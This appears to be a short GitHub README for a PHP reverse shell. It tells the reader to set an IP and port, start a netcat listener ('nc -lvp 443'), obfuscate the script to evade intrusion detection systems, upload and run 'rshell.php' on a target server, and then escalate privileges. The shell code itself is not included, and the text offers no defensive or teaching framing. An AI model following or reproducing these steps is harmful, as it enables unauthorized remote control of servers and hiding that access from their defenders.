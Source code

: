 # php-reverse-shell
make a php call home with netcat (i.e. a php reverse shell)

## step 1 change code 
    $ip = '127.0.0.1';  // CHANGE THIS
    $port = 443;       // CHANGE THIS

## step 2 set your caller
    nc -lvp 443
## optional step: (in case you signal an IDS / IPS) -> Obfuscate!
use http://www.fopo.com.ar/

## step 3 upload rshell.php and run it
![scrn](https://i.imgur.com/j3Lsy3R.png)

## step 4 escalate ;)
![scrn](https://i.imgur.com/w02EgM8.jpg)
